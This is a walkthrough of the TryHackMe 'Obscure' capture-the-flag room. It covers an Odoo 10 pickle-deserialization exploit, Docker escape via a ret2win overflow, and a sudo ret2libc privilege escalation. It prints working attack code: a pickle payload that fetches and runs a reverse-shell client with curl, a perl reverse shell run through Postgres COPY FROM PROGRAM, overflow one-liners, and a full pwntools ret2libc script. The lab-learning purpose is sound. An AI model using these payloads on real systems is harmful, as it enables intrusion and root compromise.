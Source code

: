 # Obscure

https://tryhackme.com/room/obscured

Rated 'Medium' at time of writing.

This was a fun machine, and not just because I was the first to get the first flag (so called 'first blood'). Just a nice, multi-step room where I learned a bit even if I took a few wrong corners.

1. A scan reveals 21, 22 and 80. The FTP service allowed anonymous logins, and under it was a `notice.txt` and a `password` binary.

2. The binary can be pulled apart with strings or ghidra, and basically takes an unknown 'employee id' and returns a password. The password was easy to extract using Ghidra, where its stored as a local string in the password function.

3. On port 80 was an instance of the [Odoo CRM](https://www.odoo.com/), version 10. Its login page required an email and password, but there was also a link to manage databases. Via that, a backup of the DB could be taken which revealed a single user with a email. Using this and the password recovered in step 2, I could get access to the admin interface of the site.

4. There is a public exploit for this version of Odoo, https://www.exploit-db.com/exploits/44064. The steps are: 
- install an app called 'Database Anonymization'
- access 'anonymize database' from the settings page
- anonymize the database (there is a button that is not styled like the others with this as the label - took me a while to find it as I thought it was just a tab heading)
- refresh and then, when you want to de-anonymize the database, you upload a python pickle-serialized config file. Its via that serialized file that you can exploit a deserialization error.

This part of the room seemed to trip a lot of people up, but it's not too complicated. First, the instance of Odoo is running using python 2.7, so your pickle payload has to be built using this version. A python3 payload will not deserialize correctly.

Second, upon uploading the payload and then clicking deserialize, the site will display an error (bool is not iterable or something). This error *does not matter* for your payload exploitation, it will happen on success or failure.

And finally, the site is running on a restricted docker container, which means many common tools will not be present. E.g., no wget, no advanced version of bash or whatever. Think more simply, or even just test with something like a ping command or basic curl.

Anyway, this is the pickle exploit I used (and ran with python2.7 to get my uploadable payload). It downloads a [reverse_ssh](https://github.com/NHAS/reverse_ssh) client binary from my attack box and then runs it to give me a stable reverse shell:

```python
import pickle
import os
import base64
import pickletools

class Exploit(object):
	def __reduce__(self):
		return (os.system, (("curl 10.10.25.148:1234/client > /tmp/c;chmod +x /tmp/c;/tmp/c"),))

with open("exploit.pickle", "wb") as f:
	pickle.dump(Exploit(), f, pickle.HIGHEST_PROTOCOL)
```

5. Once on the box, there are a few aberrations: details that allow connection to a postgres service on a separate container, an an unknown SUID binary at `/ret`. Bringing ret back from the box to analyse (just by base64 encoding it and copying it back), its a basic [ret2win](https://ir0nstone.gitbook.io/notes/types/stack/ret2win) binary, 64bit, no position independant execution or anything. Essentually, just need to overflow its input with an address of a RET instruction (for stack alignment in 64 bit binaries) and then the address of the win function.
- to get the address of a ret instruction, you can use `objdump -d ret | grep ret`
- to get the address of the win function, either open it in ghidra, find the function and read its address, or use something like gdb or redare2 and just list the functions to get the address. As its not a position independent, these addresses will be the same on every run.
- ghidra can also show you the size of the buffer thats being read to, but you can also calculate this with msf-pattern_create and msf-pattern_offset.

The final payload was similar to: `{ python2 -c 'print "A" * 128 + "[RET instruction addr]\x00\x00\x00\x00\x00[win instruction addr]\x00\x00\x00\x00\x00"'; cat; } | /ret`. Note the extra zeros - each address is eight bytes, as this is a x64 binary. Secondaryly, the wrapping of the input in `{ data; cat; }` uses cat to keep the connection to the binary open, reading your subsequent input and writing it to the opened /bin/sh the win function starts.

6. This gets a shell as root inside the docker container, which is not particularly useful. There is a root.txt file which isn't one of the goals, just telling you that you are root inside the container.

At this point I got lost in a rabbit hole for a few hours. Inside the environment variables of the container are the connection details for the postgresql database, which is running on a different container. I was able to connect to this via `psql`, with the username `odoo` and the password from the env variables. I listed databases and connected to the one named 'main'. Odoo was a super user, which meant I could perform code execution. The target container was even more limited than the initial container, but I was able to get a reverse shell via perl with: `COPY cmdexec FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.10.255.120:5555");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';`. Once on the box, there was no /dev/tcp or any other networking tools. However I was able to download files from my attack box using [openssl](https://gtfobins.github.io/gtfobins/openssl/#file-download). So I ended up with a nice stable shell on the second box, but this was entirely pointless :)

7. Instead, what I should have noticed was that the first container had nmap available, which is unusual but a strong hint that I should be scanning something. Using it on 172.17.0.1, the presumable host machine, revealed an unusual port that, when connected to with nc, repeated the same intro text that the /ret binary would print. So, I ran `{ python2 -c 'print "A" * 128 + "[RET instruction addr]\x00\x00\x00\x00\x00[win instruction addr]\x00\x00\x00\x00\x00"'; cat; } | nc 172.17.0.1 [port]` and had a shell as zeeshan on the host machine.

8. As zeeshan, I could read the id_rsa private key from their .ssh directory, and therefore easily ssh directly onto the machine from my attack box directly.

9. In zeeshan's home directory was a binary named `exploit_me`. The zeeshan user had the ability to run this binary as root via sudo.

Pulling the binary back for analysis, a quick check showed it was as basic as the initial binary, but without a win function. Instead its a form of [ret2libc](https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/ret2libc), where you jump to system with the location of a /bin/sh string to spawn a shell. However, as ASLR was enabled on the box, and libc itself has a randomised address, first I needed to extract libc's location using a technique called [ret2plt](https://ir0nstone.gitbook.io/notes/types/stack/aslr/ret2plt-aslr-bypass), where you overflow with the address of puts to print an address from the GOT (which holds addresses of functions in libc to use, like puts itself). This will print the address which you can read, and if you set the return address to the main function, the program will repeat itself without re-randomising the libc address. At this point you can provide another payload to perform an actual ret2libc with your calculated libc base address.

I struggled a bit with this, just due to a key mistake: ALWAYS grab the actual libc library from the target machine to use as part of your exploit. Even if your attack box and the target have the same basic architecture and a similarly named libc library, even a tiny difference will bone your exploit and you will get a seg fault.

Anyway, here was the final script I used, which used zeeshan's private key to connect to the remote box and exploit the binary. Note that I had copied the libc from the box locally, and that the way I open the binary is slightly complicated as I need pwntools to correctly work with exploit_me while also invoking it using sudo on the target:

```python
from pwn import *

libc = ELF('libc.so')

s = ssh(host='10.10.184.28',user='zeeshan',keyfile='~/zeeshan.key')
p = s.process('/home/zeeshan/exploit_me')

elf = context.binary = p.elf
rop = ROP(elf)

p = s.process(argv='sudo /home/zeeshan/exploit_me',shell=True)

padding = b'A'*40
payload = padding
payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(elf.got.gets)
payload += p64(elf.plt.puts)
payload += p64(elf.symbols.main)

print(p.recvline())
p.sendline(payload)
leak = u64(p.recvline().strip().ljust(8,b'\0'))
p.recvline()

log.info(f'Gets leak => {hex(leak)}')
libc.address = leak - libc.symbols.gets
log.info(f'Libc base => {hex(libc.address)}')

payload = padding
payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(next(libc.search(b'/bin/sh')))
payload += p64(rop.find_gadget(['ret'])[0])
payload += p64(libc.symbols.system)

p.sendline(payload)
p.interactive()
```

This is basically copy/pasted with some minor alterations from the [ret2libc](https://tryhackme.com/room/ret2libc) room on TryHackMe, though task 8 on [pwn101](https://tryhackme.com/room/pwn101) from THM is also very similar.
